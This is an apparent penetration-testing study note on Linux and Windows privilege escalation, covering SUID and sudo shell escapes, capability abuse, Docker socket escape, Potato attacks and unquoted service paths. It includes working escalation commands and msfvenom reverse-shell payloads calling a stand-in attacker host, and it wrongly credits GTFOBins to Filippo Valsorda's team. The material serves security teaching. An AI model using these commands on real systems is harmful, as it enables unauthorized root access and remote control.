

# ⬆️ Privilege Escalation

> [!abstract] TL;DR
> Privilege escalation (PrivEsc) is the process of gaining higher permissions from an initial low-privilege foothold. The methodology: enumerate → find misconfiguration → abuse it → re-enumerate. Linux vectors: SUID/SGID binaries (GTFOBins list), `sudo -l` NOPASSWD entries, writable PATH directories, insecure cron jobs, capability abuse (cap_setuid, cap_dac_override), and Docker socket escape. Windows vectors: SeImpersonatePrivilege (Potato attack chains: HotPotato→JuicyPotato→PrintSpoofer→GodPotato), AlwaysInstallElevated policy, unquoted service paths, DLL hijacking, and weak ACLs on service executables. ATT&CK T1548/T1134/T1574/T1611.

---

## Intuition — Analogy First

Privilege escalation is the art of finding a crooked door in a building you're already inside. You have a low-level employee badge (user-level access) but the executive office (root/SYSTEM) is what you need. The building's maintenance crew left a janitor's closet unlocked (misconfigured SUID binary), the elevator override key was left in the break room (sudo NOPASSWD), or the executive leaves their door propped open on Fridays (scheduled task running as SYSTEM).

The enumerate-exploit-enumerate loop is critical: after every escalation attempt (whether successful or failed), re-enumerate because your new access level reveals different information. A failed sudo abuse might be compensated by a capability that wasn't visible as a lower-privileged user.

---

## How It Works



---

## Key Concepts / Details

### Automated Enumeration

```bash
# Linux: linpeas.sh (Linux Privilege Escalation Awesome Script)
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Windows: winpeas.exe
winpeas.exe | tee winpeas_output.txt

# Linux: linux-exploit-suggester
curl -sL https://github.com/mzet-/linux-exploit-suggester/raw/master/linux-exploit-suggester.sh | sh

# Windows: PowerUp (PowerSploit)
Import-Module .\PowerUp.ps1
Invoke-AllChecks | Out-File -Encoding ASCII check_results.txt
```

### Linux PrivEsc: SUID/SGID Binaries

SUID (Set User ID): file runs with owner's privileges, not executor's.

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Common SUID vulnerabilities (GTFOBins: https://gtfobins.github.io/)
# Example: /usr/bin/find with SUID

# Find with SUID → arbitrary command execution as root
find . -exec /bin/sh -p \; -quit

# Python with SUID
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# vim with SUID
vim -c ':py import os; os.execl("/bin/sh", "sh", "-p")'

# tar with SUID
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# nmap (older versions with SUID, nmap --interactive)
nmap --interactive
!sh
```

GTFOBins documents 390+ Unix binaries with privilege escalation paths.

### Linux PrivEsc: sudo Abuse

```bash
# List allowed sudo commands (no password required to run this)
sudo -l
# Output:
# (ALL : ALL) NOPASSWD: /usr/bin/python3

# Abuse: execute shell via python3 with root privileges
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'

# NOPASSWD: /usr/bin/vim → shell escape
sudo vim -c ':!/bin/sh'

# NOPASSWD: /usr/bin/less → !sh in less pager
sudo less /etc/hosts
# In less: !sh

# Dangerous sudo wildcard patterns:
# (ALL) NOPASSWD: /usr/bin/rsync * → 
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' x x

# sudo with preserved environment + LD_PRELOAD:
# If env_keep += LD_PRELOAD is in sudoers:
# Create malicious shared library, sudo env LD_PRELOAD=/tmp/evil.so program
```

### Linux PrivEsc: Capabilities

Linux capabilities split root privileges into discrete units:

```bash
# Find binaries with dangerous capabilities
getcap -r / 2>/dev/null

# Dangerous capabilities:
# cap_setuid: can setuid to any user including root
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"

# cap_dac_override: bypass file permission checks
# Read /etc/shadow with this capability
vim /etc/shadow

# cap_net_raw + cap_net_admin: raw socket access
# Enables man-in-the-middle even as unprivileged user
```

### Linux PrivEsc: Docker Socket Escape

```bash
# Check if docker group or socket is accessible
id | grep docker
ls -la /var/run/docker.sock

# If accessible: mount host filesystem into privileged container
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# Now root in container with full host filesystem → effectively root on host

# Without docker binary: API via curl
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json
```

### Windows PrivEsc: SeImpersonatePrivilege — Potato Chain

SeImpersonatePrivilege allows a service account to impersonate any authenticated user. Combined with triggering a privileged process (SYSTEM) to authenticate to attacker-controlled named pipe:

**PrintSpoofer** (most modern, works on Windows Server 2016+):
```cmd
# Check privilege
whoami /priv
# PRIVILEGES: SeImpersonatePrivilege (Enabled)

# Exploit with PrintSpoofer
PrintSpoofer.exe -i -c powershell

# Or with GodPotato (most reliable across Windows versions)
GodPotato.exe -cmd "cmd /c whoami"
```

**Evolution of Potato attacks**:
- HotPotato (2016) → RottenPotato → JuicyPotato → RoguePotato → PrintSpoofer → GodPotato (2023)

### Windows PrivEsc: Unquoted Service Paths

Windows service paths with spaces and no quotes allow DLL/EXE injection:

```cmd
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /v "C:\\Windows" | findstr /i "auto"
# Output: C:\Program Files\Vulnerable App\service.exe

# Windows parses this as:
# Attempt 1: C:\Program.exe (if exists, executes with SYSTEM)
# Attempt 2: C:\Program Files\Vulnerable.exe
# Attempt 3: C:\Program Files\Vulnerable App\service.exe

# If you can write to C:\Program Files\:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker LPORT=4444 -f exe -o Vulnerable.exe
copy Vulnerable.exe "C:\Program Files\Vulnerable.exe"
sc start VulnerableService
```

### Windows PrivEsc: DLL Hijacking

Windows DLL search order: application directory → `%PATH%` directories → system directories.

If a service loads a DLL that doesn't exist (missing DLL), and you can write to any directory in the search path:

```powershell
# Find DLL hijacking candidates with Process Monitor (Procmon)
# Filter: Result = NAME NOT FOUND + Path ends with .dll

# Create malicious DLL (msfvenom)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker LPORT=4444 -f dll -o evil.dll

# Place in writable directory in service's search path
copy evil.dll C:\Python38\evil.dll  # If Python38 in PATH and service loads it

# Restart service to trigger DLL load
sc stop VulnerableService && sc start VulnerableService
```

### Windows PrivEsc: AlwaysInstallElevated

Registry policy that allows MSI files to run with SYSTEM privileges:

```powershell
# Check if enabled (both keys must be 1)
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Exploit: create malicious MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

---

## Real-World Notes

- linpeas.sh is coloured (red = critical findings); on a first pass, focus only on red/yellow output to triage quickly
- GTFOBins is maintained by Filippo Valsorda's team; the site includes file read, file write, shell escape, SUID, sudo, and capability sections for each binary
- PrintSpoofer was identified by itm4n; the SpoolFool vulnerability (CVE-2022-21999) extended this to Windows 11 — both fixed, but the pattern repeats with new spooler vulnerabilities
- DLL hijacking is one of the most common vectors in real-world APT intrusions; used by APT10 (menuPass), TA505, and others for persistence

---

## Common Pitfalls

1. **Stopping after first SUID find** — Multiple PrivEsc paths may exist; enumerate all before choosing (some have higher success probability)
2. **Not re-enumerating after partial escalation** — Going from www-data to appuser reveals different SUID binaries, sudo entries, and file permissions
3. **Potato attacks on non-IIS/service accounts** — Potato chains require SeImpersonatePrivilege; verify with `whoami /priv` before attempting
4. **Missing kernel exploits** — If no misconfiguration found, check kernel version (uname -a / systeminfo) against kernel exploit lists

---

## Related Concepts

- [[Exploitation_Techniques|← Exploitation]] — gaining initial low-privilege foothold
- [[Post_Exploitation_and_Lateral_Movement|→ Post-Exploitation]] — what to do after root/SYSTEM
- [[MITRE_ATT_CK|← ATT&CK]] — T1548, T1134, T1574 PrivEsc techniques
- [[_MOC_Penetration_Testing|↑ Penetration Testing MOC]]

---

## Review Questions

1. linpeas.sh output shows `/usr/bin/python3.8` has `cap_setuid+ep` capability. Walk through the complete exploit to root, including the exact Python code to run.
2. A Windows Server 2019 IIS service account has SeImpersonatePrivilege. Which specific Potato attack would you use (and why not JuicyPotato), and what listener do you set up on the attacker machine?
3. You find the service path `C:\Program Files\Target Corp\Update Service\updater.exe`. Describe the unquoted service path attack, the file you create, where you place it, and how you trigger execution.

---

## Sources

- GTFOBins: https://gtfobins.github.io/
- PrintSpoofer: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- PayloadsAllTheThings PrivEsc: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources

#Cybersecurity #PenetrationTesting #PrivilegeEscalation #GTFOBins #Linux #Windows #Potato
